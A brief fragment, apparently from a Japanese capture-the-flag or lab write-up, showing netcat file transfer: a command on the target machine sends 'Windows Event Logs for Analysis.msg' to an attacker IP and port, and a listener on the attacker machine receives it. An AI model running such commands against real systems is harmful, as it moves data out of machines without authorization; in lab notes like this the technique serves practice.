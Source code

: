 ncによるファイル転送   
```
# ターゲと端末
$ nc 10.10.14.151 10000 < Windows\ Event\ Logs\ for\ Analysis.msg
```
```
#アタッカー端末
$ nc -lvnp 10000 > 'Windows Event Logs for Analysis.msg'
```